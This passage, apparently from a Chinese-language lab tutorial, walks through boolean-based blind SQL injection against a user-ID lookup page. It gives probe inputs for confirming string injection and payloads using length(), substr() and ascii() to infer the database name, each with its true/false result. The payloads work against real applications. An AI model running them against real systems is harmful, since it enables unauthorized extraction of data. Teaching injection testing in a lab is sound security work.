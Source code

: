 返回信息只有 true 或者 false，没有其他信息，比如：

![](http://img.wukaipeng.com/2023/1007-083346-image-20231007083346432.png)

![](http://img.wukaipeng.com/2023/1007-083414-image-20231007083414517.png)

存在返回 `User ID exists in the database.`，不存在返回 `User ID is MISSING from the database.`

1️⃣ 判断是否存在注入漏洞。

可以通过下列语句判断是否存在注入漏洞：

|      | 语句          | 结果    |
| ---- | -------------- | ------- |
| 1    | `1`              | exists  |
| 2    | `'`            | MISSING |
| 3    | `1 and 1 = 1 #`  | exists  |
| 4    | `1 and 1 = 2 #`  | exists  |
| 5    | `1’ and 1 = 1 #` | exists  |
| 6    | `1’ and 1 = 2 #` | MISSING |



最后 5、6 步骤成立则说明存在字符串注入。

2️⃣ 推断数据库名称

首先利用 `length()` 推断数据库长度

```sql
1' and length(database()) > 10 #
 ❌ MISSING

1' and length(database()) > 5 # 
 ❌ MISSING

1' and length(database()) > 3 #
 ✅ exists

1' and length(database()) = 4 #
 ✅ exists
```

接着利用 `substr()` 和 `ascii()`，逐一推断数据库的字符组成

```sql
1' and ascii(substr(database(), 1, 1)) > 88 # 
 ✅ exists

1' and ascii(substr(database(), 1, 1)) > 98 # 
 ✅ exists

1' and ascii(substr(database(), 1, 1)) > 100 # 
 ❌ MISSING

1' and ascii(substr(database(), 1, 1)) = 100 # 
 ✅ exists
```
